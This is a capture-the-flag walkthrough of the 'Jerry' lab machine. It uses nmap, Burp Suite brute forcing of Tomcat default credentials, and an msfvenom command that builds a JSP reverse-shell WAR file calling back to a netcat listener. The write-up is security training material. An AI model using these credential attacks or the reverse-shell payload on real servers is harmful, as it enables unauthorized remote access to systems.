

# Jerry

## 1. Overview

### 1.1. Attacks

* Default Credential

### 1.2. Tools used

**Enumeration** &rarr; `nmap`.

**Exploitation** &rarr; `Netcat`, `msfvenom`,`BurpSuite`.

## 2. Walkthrough

### 2.1. Enumeration

#### 2.1.1. nmap

##### 2.1.1.1. Ports


Looks like default webpage by having the server name and version in the title.



This shouldn't be accessible from the external network and shouldn't be easily accessible to everyone in the internal one.

##### 2.1.1.2. Host Details


### 2.2. Exploitation

#### 2.2.1. Sources

[Apache Tomcat Default Credentials List](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown)

[Creating Metasploit Payloads](https://netsec.ws/?p=331)

#### 2.2.2. Burpsuite

Proxy the website and go to `Admin Manager`. Try random username and password.


We'll use a list with Tomcat default credentials. We can see the format required in Decoder, since it is encoded in Base64. If we decode it, we see that the format is `<user>:<pwd>`.


To transform these to Base64 we can use the following command:

```sh
for cred in $(cat tomcat.txt); do echo -n $cred | base64; done
```


**Note:** unmark `URL-Encoding` at the bottom of the page.


We got a successful credential! If we decode it we will know the username and password (`tomcat:s3cret`). Now we can get inside.


There's even the option to upload a WAR file. We can probably get a shell from that.

We can research ways to generate a WAR file, for example:

```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```

And for the listener we can use `Netcat`:

```sh
nc -nvlp <Port>
```

And now we can upload the file. If it doesn't get a shell we can force it by clicking on the new "shell" file that appears in the webpage.


